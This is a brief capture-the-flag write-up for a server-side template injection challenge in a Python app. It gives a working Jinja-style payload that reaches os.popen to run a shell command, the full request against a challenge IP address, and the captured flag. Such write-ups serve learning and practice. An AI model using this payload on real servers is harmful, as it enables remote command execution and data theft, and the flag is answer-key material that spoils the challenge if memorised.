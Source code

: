 ## Solve:

- [ ] Reference to SSTI (Server Side Template Injection)
  - The language used to program the application is `python`
  - A good resource is [PaylodAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
  ```python
  {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
  ```
  
  - Final paylload is as follows: <br>
  http://213.177.18.70:8005/?c={{request.application.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20/flag.txt%27).read()}}

<br>

## Flag:
`flag{Server_Side_Template_Injection_is_4_cool_kids_only}`
